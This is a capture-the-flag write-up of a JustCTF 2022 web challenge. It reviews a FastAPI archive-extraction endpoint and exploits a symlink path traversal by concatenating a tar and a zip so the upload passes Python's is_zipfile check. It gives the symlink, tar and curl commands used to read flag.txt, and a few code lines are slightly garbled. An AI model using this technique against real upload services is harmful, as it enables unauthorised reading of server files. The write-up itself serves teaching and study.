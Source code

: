 ```yaml
---
title: "Zip Slip Vulnerability - Justctf 2022"
author: "Trevor saudi"
date: 2022-06-13

subtitle: "An overview of the zip slip vulnerability in a python application"

images:
 - "/posts/2022-06-13_Zipslip-vulnerability-Justctf2022/images/1.png"
 - "/posts/2022-06-13_Zipslip-vulnerability-Justctf2022/images/2.png"
 - "/posts/2022-06-13_Zipslip-vulnerability-Justctf2022/images/3.png"


aliases:
    - "/Zip-Slip-Vulnerability-JustCTF2022"

tags:
- python
- Zip Slip




---
```


_An overview of the zip slip vulnerability in a python application._

## OVERVIEW

Zip Slip is a widespread arbitrary file overwrite vulnerability that typically results in remote code execution. Discovered in June 5th 2018 by the Snyk Research team, it affects thousands of projects.

The vulnerablity affects ecosystems that have no central library offering high level processing of archive files. Several web applications allow users to submit files in compressed format to reduce the size of files being uploaded. Later on, the compressed files get decompressed to retrieve to actual files. Zip Slip aims to target such applications

## ZIP SLIP EXPLOIT

In a previously concluded CTF - JustCTF 2022, one of the web challenges features a web application vulnerable to the Zip Slip vulnerability. We will look at how the exploit to achieve an arbitrary file read on the server works.


![image](/posts/2022-06-13_zipslip-vulnerability-justctf2022/images/1.png)

### Code review

The challenge consists of a REST API endpoint that receives a zip file via HTTP POST and returns a JSON object containing the contents of every file in the zip.

![image](/posts/2022-06-13_zipslip-vulnerability-justctf2022/images/2.png)

We are also provided with the back-end code for the REST API linked [here](https://github.com/trevorsaudi/dockerized-zip-slip). 

This particular block of code is of interest. 

```python

@app.post("/extract", tags=["extract"])
async def extract(file: UploadFile):
    """Extracts the given ZIP and returns a JSON object containing the contents of every file extracted"""
    with TemporaryDirectory(dir=UPLOAD_DIR) as tmpdir:
        file_to_extract = Path(tmpdir) / file.filename
        with open(file_to_extract, "wb") as f:
            while True:
                data = await file.read(2048)
                if not data:
                    break
                f.write(data)
        # make sure the file is a valid zip because Python's `zipfile` doesn't support symlinks (no hacking!)
        if not is_`zipfile`(file_to_extract):
            raise HTTPException(status_code=415, detail=f"The input file must be an ZIP archive.")
        with TemporaryDirectory(dir=tmpdir) as extract_to_dir:
            try:
                extract_archive(str(file_to_extract), outdir=extract_to_dir)
            except PatoolError as e:
                raise HTTPException(status_code=400, detail=f"Error extracting ZIP {file_to_extract.name}: {e!s}")
            return read_files(extract_to_dir)
 ```

`zipfile` and `patoolib` are being used as shown below:

```python
from base64 import b64encode
import os
from pathlib import Path
from tempfile import TemporaryDirectory
from typing import Any, Dict, Optional, Union
from zipfile import is_ zipfile

from fastapi import FastAPI, HTTPException, UploadFile
from fastapi.responses import FileResponse
from patoolib import extract_archive
from patoolib.util import PatoolError
```

According to the research done by Snyk linked [here](https://snyk.io/blog/behind-the-disclosure-the-zip-slip-vulnerability/) `zipfile` is not vulnerable to the zip slip vulnerability as also indicated in the comments.

So how then will we approach the exploit?

It is worth noting that tarfile happens to still be affected. Patool libary being used has a cross format feature allows you to extract any type of archive including the most popular ones such as ZIP, GZIP, TAR and RAR.


The implementation of `zipfile` to check if the upload is a valid zip file can be abused in this case. `zipfile` module checks for magic bytes in the archive to verify if it a valid zip file. So by concatenating a tarfile and a zip file, we can pass the `is_zipfile` check since zip's magic bytes will still be at the end of the archive and hence valid. 


### Exploit

We will abuse a path traversal vulnerability by crafting a symlink file. When uploaded and unzipped using `patoolib`, the symlink will be processed leading to dumping of the flag that we need.

```bash
ln -fs ../../../flag.txt .
touch a
zip a.zip -xi a
tar --owner 0 --group 0 -cvf payload.tar flag.txt a.zip
```

![image](/posts/2022-06-13_zipslip-vulnerability-justctf2022/images/3.png)

Curl the server

```bash
 curl -X 'POST' \
  'http://symple-unzipper.web.jctf.pro/extract' \
  -H 'accept: application/json' \
  -H 'Content-Type: multipart/form-data' \
  -F 'file=@payload.tar;type=application/x-tar'

```

![image](/posts/2022-06-13_zipslip-vulnerability-justctf2022/images/4.png)

We get the flag from the server.